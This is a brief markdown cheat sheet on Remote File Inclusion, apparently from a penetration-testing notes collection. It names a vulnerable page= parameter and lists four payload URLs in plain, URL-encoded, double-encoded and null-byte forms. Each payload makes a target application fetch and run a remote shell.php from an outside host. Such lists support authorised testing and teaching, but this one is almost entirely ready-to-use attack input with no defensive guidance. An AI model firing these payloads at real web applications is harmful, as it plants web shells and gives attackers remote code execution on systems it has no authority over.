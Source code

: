 ## Remote File Inclusion (RFI)

## Introduction
Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts.

## Where to find
- Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

## How to exploit
1. Basic payload
```
http://example.com/index.php?page=http://daffa.info/shell.php
```

2. URL encoding
```
http://example.com/index.php?page=http%3A%2F%2Fdaffa.info%2Fshell.php
```

3. Double encoding
```
http://example.com/index.php?page=http%253A%252F%252Fdaffa.info%252Fshell.php
```

4. Using Null Byte (%00)
```
http://example.com/index.php?page=http://daffa.info/shell.php%00
```

## References
* [payloadbox](https://github.com/payloadbox/rfi-lfi-payload-list)